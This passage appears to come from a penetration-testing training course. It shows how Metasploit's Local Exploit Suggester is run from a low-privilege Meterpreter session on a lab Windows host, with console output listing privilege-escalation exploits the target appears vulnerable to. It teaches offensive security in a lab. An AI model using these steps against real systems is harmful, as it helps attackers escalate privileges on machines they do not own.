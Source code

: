 
## Local Exploit Suggester

As a tip, there is a module called the `Local Exploit Suggester`. We will be using this module for this example, as the Meterpreter shell landed on the `IIS APPPOOL\Web` user, which naturally does not have many permissions. Furthermore, running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester.

#### MSF - Searching for Local Exploit Suggester

  Introduction to MSFVenom

```shell-session
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure

<SNIP>

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set session 2

session => 2


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```